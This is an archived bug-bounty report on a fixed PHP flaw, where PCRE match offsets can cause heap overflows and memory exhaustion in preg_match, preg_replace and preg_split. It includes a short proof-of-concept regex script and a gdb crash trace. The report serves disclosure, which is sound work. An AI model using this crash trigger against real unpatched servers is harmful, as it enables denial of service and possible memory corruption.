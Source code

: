 # Multiple vulnerabilities related to PCRE functions (already fixed)

## Report Details
- **Report ID**: 141839
- **URL**: https://hackerone.com/reports/141839
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-29T15:03:56.852Z
- **Disclosed**: 2019-11-12T09:35:35.841Z

## Reporter
- **Username**: mongo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
This issue was reported a while ago at: https://bugs.php.net/bug.php?id=70345
The report is now public, but for some reason I was not notified by email when the report was closed. I just remembered to check again today and noticed multiple code changes were made and the bug is now considered closed.
Would be nice if a bounty was still possible, even though so much time has passed.

Description:
------------
The pcre_exec() function generates a list of "offsets", each consisting
of a start and an end position within the subject string. Throughout the code its often assumed that
for each "offset", the start position is smaller than or equal to the end position.
However, certain regular expressions break this assumption (see the testcase for an example).

This leads to:
- Multiple heap overflows (through preg_match() or preg_replace(), for instance): in the best case scenario these are simply denial-of-service; exploitation to achieve arbitrary code execution might be possible, but not trivial.

- Memory exhaustion (through preg_split(), for instance)

I'm not providing filenames / line numbers with this bug report because pcre_exec() is used extensively throughout the codebase, and from what I have seen, all of its uses fail to fully validate the returned offsets and are thus vulnerable, to varying degrees.

Because regular expression functions are often exposed to user input, I believe this could be a fairly serious bug.

Test script:
---------------
<?php

$regex = '/(?=xyz\K)/';
$subject = "aaaaxyzaaaa";

// Comment/uncomment below as wanted.
// All 3 functions are vulnerable (note, other functions are affected as well)
preg_match($regex, $subject, $matches);
preg_replace($regex, '\0', $subject);
preg_split($regex, $subject);


Actual result:
--------------
A trace for preg_match, showing a SIGSEGV caused by a runaway memcpy:
```
(gdb) r
Starting program: php-5.6.12/sapi/cli/php go.php

Program received signal SIGSEGV, Segmentation fault.
__memcpy_sse2_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S:118
118     ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S: No such file or directory.
(gdb) bt
#0  __memcpy_sse2_unaligned () at ../sysdeps/x86_64/multiarch/memcpy-sse2-unaligned.S:118
#1  0x000000000047b6fc in memcpy (__len=18446744073709551613, __src=<optimized out>, __dest=<optimized out>) at /usr/include/x86_64-linux-gnu/bits/string3.h:51
#2  php_pcre_get_substring_list (subject=subject@entry=0x7ffff7ebbe18 "aaaaxyzaaaa", ovector=ovector@entry=0x7ffff7fcebc0, stringcount=stringcount@entry=1, listptr=listptr@entry=0x7fffffffaee8)
    at php-5.6.12/ext/pcre/pcrelib/pcre_get.c:477
#3  0x00000000004a569f in php_pcre_match_impl (pce=pce@entry=0x1012cf0, subject=0x7ffff7ebbe18 "aaaaxyzaaaa", subject_len=11, return_value=return_value@entry=0x7ffff7fcea58, subpats=0x7ffff7fce900, global=global@entry=0, use_flags=0, 
    flags=0, start_offset=0) at php-5.6.12/ext/pcre/php_pcre.c:707
#4  0x00000000004a614b in php_do_pcre_match (ht=3, return_value=0x7ffff7fcea58, global=0, return_value_used=<optimized out>, this_ptr=<optimized out>, return_value_ptr=<optimized out>) at php-5.6.12/ext/pcre/php_pcre.c:575
#5  0x000000000077894e in zend_do_fcall_common_helper_SPEC (execute_data=<optimized out>) at php-5.6.12/Zend/zend_vm_execute.h:558
#6  0x000000000070d968 in execute_ex (execute_data=0x7ffff7f9a158) at php-5.6.12/Zend/zend_vm_execute.h:363
#7  0x00000000006d4740 in zend_execute_scripts (type=type@entry=8, retval=retval@entry=0x0, file_count=file_count@entry=3) at php-5.6.12/Zend/zend.c:1341
#8  0x00000000006722f2 in php_execute_script (primary_file=primary_file@entry=0x7fffffffd500) at php-5.6.12/main/main.c:2597
#9  0x000000000077a5bf in do_cli (argc=2, argv=0xe93760) at php-5.6.12/sapi/cli/php_cli.c:994
#10 0x0000000000426980 in main (argc=2, argv=0xe93760) at php-5.6.12/sapi/cli/php_cli.c:1378
```

## Attachments
No attachments
